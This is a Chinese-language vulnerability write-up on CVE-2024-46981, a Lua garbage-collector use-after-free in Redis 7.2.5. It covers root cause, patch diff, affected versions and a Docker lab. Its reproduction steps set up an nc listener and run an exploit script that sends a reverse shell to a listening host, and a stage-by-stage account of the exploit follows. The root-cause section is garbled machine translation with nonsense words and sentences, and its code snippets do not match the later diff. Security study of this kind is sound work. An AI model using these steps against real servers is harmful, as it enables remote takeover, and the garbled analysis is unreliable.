




# CVE-2024-46981 CWE-416 Redis UAF

## 漏洞背景

- **Redis**：一个key-value 存储系统，是跨平台的非关系型数据库。开源的内存数据库，提供了一个高性能的键值（key-value）存储系统，常用于缓存、消息队列、会话存储等应用场景。客户端通过套接字与 Redis 服务器通信，发送命令，服务器更改其状态（即其内存结构）以响应此类命令。
- 

## 漏洞原理

Redis 的 Lua 脚本引擎在执行过程中存在垃圾收集（GC）机制的漏洞。当 Redis 执行 Lua 脚本时，Lua 虚拟机会在不恰当的时机释放某些用户数据，从而导致内存中的对象被错误地清理（使用后释放，UAF）。攻击者可以通过特制的 Lua 脚本利用这一漏洞，触发恶意的内存操作，进而实现远程代码执行。

## 漏洞定位


分析 Redis-7.2.5 源代码 ：

1。 联合国 `src/eval.c::freeLuaScriptsSync()` 调用 `lua_close(lua)` 直接在 SCRIPT FLUSH/script 上下文销毁路径中。 如果 Lua 垃圾收集器被停止,关闭过程不会首先完成必要的回收,以及 Redis分配器/物体的生命周期可能留下相互参照的死亡物体。

   ```c
   void freeLuaScriptsSync(dict *lua_scripts, list *lru, lua_State *lua) {
       dictRelease(lua_scripts);
       listRelease(lru);
       /* Missing lua_gc(lua, LUA_GCCOLLECT, 0); */
       lua_close(lua);
   }
   ```

2。 `src/function_lua.c::luaEngineFreeCtx()` FCONUTION FLUSH/引擎被销毁,直接关闭时的顺序问题相同 `lua_engine_ctx->lua`。

   ```c
   static void luaEngineFreeCtx(void *engine_ctx) {
       luaEngineCtx *ctx = engine_ctx;
       /* Missing lua_gc(ctx->lua, LUA_GCCOLLECT, 0); */
       lua_close(ctx->lua);
       zfree(ctx);
   }
   ```

两个入口都可以在剧本积极阻止GC后触发。 确定一个问题在哪里 `lua_gc(..., LUA_GCCOLLECT, 0)` 在每次处决前被明确处决 `lua_close()`,允许在销毁VMS之前完全恢复,即使脚本之前已经停止自动GC。

## 漏洞修复


升级到 Redis  6.2.17， 7.2.7， 7.4.2,或以后包含 `342ee426ad0d0731b2272553bd4db2cd78e24772`。脚本和功能引擎的撕裂路径现在都迫使一个完整的 Lua 收藏为 `lua_gc(..., LUA_GCCOLLECT, 0)` 在此之前 `lua_close()`,即使早先的脚本停止了自动GC。

应用补丁前，应禁止不受信任的用户加载脚本或函数，以及运行 `SCRIPT FLUSH` 和 `FUNCTION FLUSH`；删除不受信任的脚本后，在维护窗口内重启服务。ACL 限制只能降低漏洞路径的可达性，不能修复已经受影响的 Lua VM。
在每个脚本冲洗命令中添加一行代码,在调用lua close之前将GC状态恢复为"收集"。

```c
src/eval.c
@@ -266,6 +266,7 @@ void freeLuaScriptsSync(dict *lua_scripts, list *lua_scripts_lru_list, lua_State
    unsigned int lua_tcache = (unsigned int)(uintptr_t)ud;
#endif
+   lua_gc(lua, LUA_GCCOLLECT, 0);
    lua_close(lua);
 
src/function_lua.c
@@ -198,6 +198,7 @@ static void luaEngineFreeCtx(void *engine_ctx) {
    unsigned int lua_tcache = (unsigned int)(uintptr_t)ud;
#endif
+   lua_gc(lua_engine_ctx->lua, LUA_GCCOLLECT, 0);
    lua_close(lua_engine_ctx->lua);
    zfree(lua_engine_ctx);
```

## 影响范围


Redis：

- 6.2.0 至 6.2.16
- 7.2.0 至 7.2.6
- 7.4.0 至 7.4.1

## 环境搭建

启动 Docker 环境，Redis 版本为 7.2.5

```txt
CNA:GitHub, Inc.    Base Score:7.0 HIGH    Vector:CVSS:3.1/AV:A/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L
NIST:NVD    Base Score:9.8 CRITICAL    Vector:CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```

```txt
cpe:2.3:a:redis:redis:7.2.5:*:*:*:*:*:*:*
```



## 漏洞复现

1. 获取 Docker 网络上主机的 IP 地址为 172.17.0.1

   ```bash
   ifconfig
   ```

   

2. 开启监听 2222 端口

   ```bash
   nc -nlvp 2222
   ```

3. 进入 EXP 文件夹，打开终端命令行，创建 Python 虚拟环境

   ```bash
   python -m venv venv 
   ```

4. 启动 Python 虚拟环境

   ```bash
   source venv/bin/activate
   ```

5. 安装依赖

   ```bash
   pip install -r requirements.txt
   ```

6. 运行 EXP 文件，--lhost 参数为监听机 IP（在这为 Docker 网络上主机的 IP 地址），--lport 参数为监听端口，--rhost 为目标 IP（在这为本机）。若报错，则根据执行后显示的diff值，更改第 46 行的diff值

   ```bash
   python CVE-2024-46981-EXP.py --lhost 172.17.0.1 --lport 2222 --rhost localhost
   ```

   

7. EXP 文件运行后可以看到监听端口成功反弹 shell，并成功执行 id 命令，输入 exit 退出

   

## EXP分析

**阶段 1：泄漏 TString 地址** (`stage1_leak_tstring`):

- 在这一阶段，脚本通过执行 `stage1-leak-tstring` Lua 脚本，从 Redis 中泄漏出 `tstring`（TString 对象）的内存地址。该脚本返回一组对象的地址，通过计算地址间的差值来发现潜在的 `tstring` 地址。
- 如果差值符合特定模式，脚本认为该地址是有效的 `tstring` 地址，并将其存储在 `state.tstring_addr` 中。

**阶段 2：伪造对象** (`stage1_forge_objects`):

- 这一阶段伪造了一个 `tstring` 对象。`tstring` 对象是 Redis 内部数据结构中的一部分，包含了多个内存字段（如 `next`、`marked`、`metatable` 等）。攻击者通过构造这些字段的值，操纵对象的内存布局，达到绕过垃圾回收机制的目的。
- 伪造的对象通过 `state.redis.eval` 执行 `stage1-forge-objects` Lua 脚本，将这些伪造的内存对象写入 Redis。

**阶段 3：利用 UAF（Use-After-Free）** (`stage1_uaf`):

- 这个阶段的目标是利用之前泄漏和伪造的内存地址，构造一个 UAF 攻击。通过构造特定的内存结构（如伪造的 `udata` 对象），攻击者可以利用 Redis 内存管理中的漏洞来触发远程代码执行。
- 攻击者构造了大量的伪造数据，并通过 Redis 执行 `stage1-uaf` Lua 脚本，向 Redis 注入恶意命令。

**阶段 4：清理内存** (`clear_heap`):

- 清理步骤确保内存中不再残留任何有害数据。通过 `script_flush` 和 `eval` 命令，脚本清理 Redis 内部的 Lua 脚本和缓存数据，确保攻击顺利执行。

## 参考链接


[NVD - CVE-2024-46981](https://nvd.nist.gov/vuln/detail/CVE-2024-46981)

[Fix LUA garbage collector (CVE-2024-46981) · redis/redis@342ee42](https://github.com/redis/redis/commit/342ee426ad0d0731b2272553bd4db2cd78e24772#diff-e826f40577b164e06befcc6fce078352f4bd5c77e5f228064da841d983d75213)

[p333zy/poc-redis](https://github.com/p333zy/poc-redis)

[Exit2GC: Remote Code Execution @ Redis | rop4.sh](https://rop4.sh/posts/exit2gc/)
